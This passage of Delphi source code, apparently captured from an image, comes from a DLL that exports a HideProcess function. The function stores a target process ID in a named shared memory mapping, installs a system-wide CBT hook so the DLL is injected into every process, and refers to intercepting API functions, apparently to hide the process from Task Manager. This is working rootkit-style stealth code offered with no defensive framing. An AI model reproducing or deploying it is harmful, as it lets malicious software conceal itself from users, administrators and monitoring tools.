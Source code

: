         CloseHandle(hSnapShot);
      end;
    end;
     
    var
      HookHandle: THandle;
     
    function CbtProc(code: integer; wparam: integer; lparam: integer): Integer;
      stdcall;
    begin
      Result := 0;
    end;
     
    procedure InstallHook; stdcall;
    begin
      HookHandle := SetWindowsHookEx(WH_CBT, @CbtProc, HInstance, 0);
    end;
     
    var
      hFirstMapHandle: THandle;
     
    function HideProcess(pid: DWORD; HideOnlyFromTaskManager: BOOL): BOOL; stdcall;
    var
      addrMap: PDWORD;
      ptr2: PBOOL;
    begin
      mypid := 0;
      result := false;
      hFirstMapHandle := CreateFileMapping($FFFFFFFF, nil, PAGE_READWRITE, 0, 8,
        'NtHideFileMapping');
      if hFirstMapHandle = 0 then
        exit;
      addrMap := MapViewOfFile(hFirstMapHandle, FILE_MAP_WRITE, 0, 0, 8);
      if addrMap = nil then
      begin
        CloseHandle(hFirstMapHandle);
        exit;
      end;
      addrMap^ := pid;
      ptr2 := PBOOL(DWORD(addrMap) + 4);
      ptr2^ := HideOnlyFromTaskManager;
      UnmapViewOfFile(addrMap);
      InstallHook;
      result := true;
    end;
     
    exports
      HideProcess;
     
    var
      hmap: THandle;
     
    procedure LibraryProc(Reason: Integer);
    begin
      if Reason = DLL_PROCESS_DETACH then
        if mypid > 0 then
          UninterceptFunctions()
        else
          CloseHandle(hFirstMapHandle);
    end;
     
